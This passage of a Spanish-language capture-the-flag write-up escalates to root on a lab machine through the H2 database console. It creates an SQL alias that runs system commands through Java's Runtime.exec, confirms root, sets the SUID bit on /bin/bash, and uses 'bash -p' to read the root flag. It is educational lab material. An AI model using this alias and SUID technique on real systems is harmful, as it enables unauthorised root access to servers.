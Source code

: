 Encontramos un exploit en python que permitiria ejecutar **Alias Arbitrary Code execution**. Lo analizamos:

```bash
searchsploit -x 44422
```

Mirando el exploit, vemos que tenemos que crear un alias en el cual podemos podemos utilizar para ejecutar commandos. En este caso
no necessitamos utilizar el exploit. Podemos copiar las partes que nos interessa en el panel H2.

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new \
java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;

CALL EXECVE('whoami')
```

Aqui vemos **root**. Pues aqui lanzamos el commando para que la 
```bash
 /bin/bash 
```
 sea SUID

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new \
java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;

CALL EXECVE('chmod 4755 /bin/bash')
```

En la shell, ya podemos comprobar que la 
```bash
 /bin/bash 
```
 es SUID y con el commando 
```bash
 bash -p 
```
 no convertimos en root

```bash
ls -l /bin/bash
bash -p
cd /root
cat root.txt
```

Y a estamos root y podemos visualizar la flag.
